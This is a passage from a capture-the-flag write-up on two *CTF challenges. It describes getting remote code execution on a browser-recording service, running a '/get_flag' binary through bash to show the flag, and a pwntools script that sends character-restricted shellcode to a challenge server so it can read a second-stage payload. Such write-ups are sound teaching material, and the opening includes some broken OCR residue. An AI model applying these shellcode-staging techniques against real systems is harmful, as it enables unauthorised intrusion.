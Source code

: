 ```javascript
pwn();

```

Although we have RCE now, however finding the flag is another nightmare :(

The service will ask us to provide a URL and an email address, later it will use the Chrome browser to connect to our web server, record the execution and send us a gif via email, which shows the result of the execution.

At first we thought the flag is under `/`, so we execute `gedit /flag`, only to find that there's nothing to show :/ After we open the file browser, we found that there's a `get_flag` binary under `/`. After several attempts, we somehow managed to show the flag by executing:  


```
/bin/bash -c "/get_flag > /tmp/abc && /usr/bin/gedit /tmp/abc"

```

Interestingly the organizer's mail service was blocked, but they saw us had successfully pop the flag on the screen, so they send us the following message:


```
Hi!

Our mail service was blocked but we see you pop a flag on the screen.
there is the flag *CTF{D1d_y0u_p0p_4_calc_f0r_fun :P}


Bye!
:P

```

Oh well, we'll take it anyway ``¯\_(ツ)_/¯``

### babyshell

* We can write any shellcode limited in this string
`"ZZJ loves shell_code,and here is a gift:\017\005 enjoy it!\n"`
* syscall is accepted("\017\005") and rax,rsi is well done set to call sys_read
* Just pop rdx to large number and rdi to zero to read another shellcode to get shell.




```python
from pwn import *

context.arch = "amd64"

restrict = "ZZJ loves shell_code,and here is a gift:\017\005 enjoy it!\n"
def check(x):
	return x in restrict

payload = asm("""
pop rdx
pop rdx
pop rdx
pop rdx
pop rdi
pop rdi
syscall
""")

#r = process(["./shellcode"])
r = remote("34.92.37.22", 10002)
r.sendlineafter(":",payload)
```